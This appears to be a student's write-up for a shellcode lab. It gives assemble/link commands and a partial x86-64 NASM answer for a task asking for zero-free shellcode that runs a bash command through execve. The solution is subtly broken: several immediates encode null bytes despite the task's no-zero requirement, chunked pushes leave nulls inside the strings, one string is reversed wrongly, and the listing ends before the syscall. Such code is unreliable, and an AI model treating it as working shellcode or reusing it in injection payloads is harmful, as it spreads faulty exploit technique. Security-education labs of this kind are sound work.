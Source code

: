 ```
// For amd64
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
// For arm64
$ as mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```

#### Task 3.a. The code example shows how to execute "/bin/sh". In this task, we need to revise the

shellcode, so it can execute a more complicated shell command listed in the following. Please write your
code to achieve this. You need to show that there is no zero in your code.
`/bin/bash -c "echo hello; ls -la"`

##### solution

- code : `Shellcode/another_sh64_bash.c`
- solution :
```nasm
section .text
global _start
_start:
    ; Clear registers
    xor rdx, rdx    ; Clear rdx for null terminator
    xor rax, rax    ; Clear rax

    ; Push the command string "echo hello; ls -la" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'a'    ; Build command string piece by piece
    push rax
    mov rax, 'ls -l'
    push rax
    mov rax, 'llo; '
    push rax
    mov rax, 'ho he'
    push rax
    mov rax, 'ec'
    push rax
    mov r8, rsp     ; Save pointer to command string

    ; Push "-c" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'c-'
    push rax
    mov r9, rsp     ; Save pointer to "-c"

    ; Push "/bin/bash" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'bash'
    push rax
    mov rax, '/bin/'
    push rax
    mov r10, rsp    ; Save pointer to "/bin/bash"

    ; Set up array of pointers for execve
    push rdx        ; NULL terminator
    push r8         ; Push pointer to command string
    push r9         ; Push pointer to "-c"
    push r10        ; Push pointer to "/bin/bash"
    mov rdi, r10    ; First argument: "/bin/bash"
    mov rsi, rsp    ; Second argument: pointer to array

```